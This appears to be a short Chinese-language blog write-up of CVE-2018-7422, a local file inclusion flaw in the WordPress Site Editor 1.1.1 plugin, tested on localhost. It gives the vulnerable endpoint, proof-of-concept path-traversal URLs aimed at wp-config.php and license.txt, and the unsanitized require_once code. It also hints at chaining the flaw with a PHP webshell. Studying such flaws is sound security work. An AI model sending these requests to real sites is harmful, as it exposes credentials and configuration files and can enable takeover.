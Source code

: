 ```yaml
---
layout: post
title: "CVE-2018-7422 (Wordpress plugin SITE EDITOR 1.1.1 File_Inclusion)"
description: ""
date: 2023-07-11
categories:
  - CVE
  - WordPress
author: ""
tags: ['CVE', 'WordPress', 'File_Inclusion']
---
```




# CVE-2018-7422 (Wordpress plugin SITE EDITOR 1.1.1 File_Inclusion)

###### tags: `CVE` `wordpress` 


安裝插件
SITE EDITOR 1.1.1

手動安裝因為檔案太大了


POC:

```
URL
http://localhost/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php



GET參數ajax_path 
這個參數可以本地包含一個文件。





poc:

這個會失敗 因為是PHP檔，會被解析，但今天是一句話馬的情況就不一樣了
http://localhost/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=../../../../../../../wp-config.php



可以拿來查看文件
http://localhost/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=../../../../../../../license.txt



```



## 分析:

沒過濾，而且可以傳值控制

wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php
```if( isset( $_REQUEST['ajax_path'] ) && is_file( $_REQUEST['ajax_path'] ) && file_exists( $_REQUEST['ajax_path'] ) ){

    require_once $_REQUEST['ajax_path'];

```





## 心得:
好爽好簡單。











